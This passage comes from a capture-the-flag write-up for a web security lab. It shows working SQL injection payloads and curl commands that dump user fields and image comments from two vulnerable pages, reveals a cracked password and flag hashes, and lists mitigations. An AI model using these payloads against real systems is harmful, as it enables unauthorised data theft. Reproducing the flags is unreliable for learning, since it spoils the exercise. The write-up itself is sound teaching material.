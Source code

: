 which can be made to a curl command

```
curl "$TARGET_IP/?page=member&id=0%3D0+UNION+SELECT+first_name%2C+town+FROM+users+UNION+SELECT++first_name%2C+country+FROM+users+UNION+SELECT++first_name%2C+planet+FROM+users+UNION+SELECT++first_name%2C+Commentaire+FROM+users+UNION+SELECT++first_name%2C+countersign+FROM+users+&Submit=Submit#" | grep Flag
```

Hints were given to the Flag user

![image](https://hackmd.io/_uploads/SJ6qV-Z7ge.png)

![image](https://hackmd.io/_uploads/S1niVZZQel.png)

The decrypted plaintext is FortyTwo
![image](https://hackmd.io/_uploads/Skomrbbmle.png)

which makes the flag `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

### Mitigations
- Use prepared statements in SQL queries
- Use stronger hashing algorithms with more output vector size (harder to wordlist) for passwords

## Exploit: SQL injection in images list
The `searchimg` page also as a similar SQL injection vulnerability to the members page, we can instantly get the flag instructions by inputting the following SQL command

```SQL
0=0 UNION SELECT url, id FROM list_images UNION SELECT url, title FROM list_images UNION SELECT url, comment FROM list_images 
```

Below is the SQL command in curl
```
curl "$TARGET_IP/?page=searchimg&id=0%3D0+UNION+SELECT+url%2C+id+FROM+list_images+UNION+SELECT+url%2C+title+FROM+list_images+UNION+SELECT+url%2C+comment
+FROM+list_images+&Submit=Submit#" | grep flag
```

Which gives us the output
![image](https://hackmd.io/_uploads/HyDahbbQxg.png)

The following is the decoding and encryption process
![image](https://hackmd.io/_uploads/B1Xla-b7ex.png)

![image](https://hackmd.io/_uploads/ryAfabWXex.png)

> The flag is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

### Mitigations
- Use prepared statements in SQL queries
- Avoid storing sensitive information in readable fields (comments)
